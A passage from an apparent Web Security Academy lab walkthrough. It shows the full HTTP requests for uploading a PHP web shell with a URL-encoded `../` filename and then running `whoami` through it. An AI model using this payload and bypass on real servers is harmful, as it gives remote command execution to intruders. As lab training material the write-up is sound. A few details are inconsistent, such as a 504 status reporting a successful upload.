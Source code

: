 ```
The file avatars/exploit.php has been uploaded.
```

In the above request, even though we added the directory traversal sequence in the file name, it is not displayed in the response. Instead of showing `avatar/../exploit.php`, the server displays it as `avatar/exploit.php`. This indicates that the server is stripping the directory traversal sequences from the request.

To bypass this restriction, we can try URL encoding the `../` sequence, which would become `..%2F`. This encoding might help us bypass the server's filtering mechanism.

```
POST /my-account/avatar HTTP/1.1
Host: 0a41002404649dcf8011bc34002b00b1.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Cookie: session=yLPqxXJxdNw7mCszZQ3mGZfesjFQNXpM
Content-Length: 444

------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="avatar"; filename="..%2Fexploit.php"
Content-Type: application/x-php

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="csrf"

UnD53tWQGRadk9rN5dzxM2gorXo8TK9h
------WebKitFormBoundaryJ3eGsByZh5Zyv2B8--

...

HTTP/1.1 504 Gateway Timeout
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 197

The file avatars/../exploit.php has been uploaded.
```

Now, we observe the response indicating that the file `avatar/../exploit.php` has been successfully uploaded. This means we have successfully uploaded the webshell to the previous directory of `avatar`, which likely does not have any restrictions on file execution.

Next, we need to send a GET request to `files/exploit.php` with the parameter `cmd=whoami` to check if the server executes the system command.

```
GET /files/exploit.php?cmd=whoami HTTP/1.1
Host: 0a41002404649dcf8011bc34002b00b1.web-security-academy.net
Connection: keep-alive
Cookie: session=yLPqxXJxdNw7mCszZQ3mGZfesjFQNXpM

...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 09:18:02 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
```